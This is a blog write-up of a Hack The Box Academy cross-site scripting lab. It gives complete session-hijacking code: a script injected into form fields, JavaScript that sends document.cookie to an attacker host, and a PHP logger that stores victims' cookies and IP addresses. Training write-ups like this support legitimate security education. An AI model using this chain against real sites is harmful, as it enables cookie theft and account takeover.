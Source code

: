 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Cross Site Scripting Skills Assessment"
date:   2024-09-29 18:45
image:  /images/htb/cross-site-scripting/cross-site-scripting-logo.png
tags:   [xss]
categories: [htbacademy]
---
```


><b>Overview:</b>
<br/><br/>
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).<br/><br/>
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:<br/><br/>
Apply the skills you learned in this module to achieve the following:<br/><br/>
 1 Identify a user-input field that is vulnerable to an XSS vulnerability.<br/>
 2 Find a working XSS payload that executes JavaScript code on the target's browser.<br/>
 3 Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag
<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/103/section/1011">Cross-Site Scripting (XSS)</a>
<a href="https://jacozwarts.github.io/images/htb/cross-site-scripting/Cross_Site_Scripting_Xss_Module_Cheat_Sheet.pdf">Cross-Site Scripting (XSS) - Cheat Sheet</a>
<br/>

#### Installing XSStrike
<a href="https://github.com/s0md3v/XSStrike.git">Clone the XSStrike Repository from GitHub</a>
```
git clone https://github.com/s0md3v/XSStrike.git
```
```
cd XSStrike
pip install -r requirements.txt
```
```
python xsstrike.py -u "http://{TARGET}?id=1"
```


## Q1:  What is the value of the 'flag' cookie?

In this guide, we'll walk through how to extract the 'flag' cookie during the XSS skills assessment using the Hack The Box provided VM. Let's dive in!

#### 1. Set Up the Environment
Start by creating a temporary directory for our script and files. Run the following command to create the directory:
```
mkdir /tmp/tempserver
```
#### 2. Create the JavaScript to Capture the Cookie
Next, we'll write a script (script.js) that will extract the session cookie and send it to a web server we’ll set up shortly. This script will be injected into the vulnerable input fields to capture the cookie.
```
document.location='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
new Image().src='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
```
#### 3. Set Up the PHP Server
Now, let's create a PHP file that will handle the incoming requests. This php script will read the c query parameter, which will contain the cookie, and store it in a file called cookies.txt. Here’s the php script:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Use the below command to start your php server:
```
sudo php -S 0.0.0.0:{PORT}
```
You can use any available port. In my case, port 80 was already in use on the Hack The Box Virtual Machine, so I chose an alternate port.
#### 4. Inject the Payload
The next step is to craft a payload to inject into the form. We'll use the following payload for both the comment and website input fields:
```
"><script src=http://{HTB_VM_IPADDRESS}:{PORT}/script.js></script>
```
Replace {HTB_VM_IPADDRESS}:{PORT} with your VM's IP and Port you used when  address.
#### Capture the Flag
Submit the form with the injected payload. Afterward, check the cookies.txt file on your server to retrieve the session cookie. and flag.
<hr/>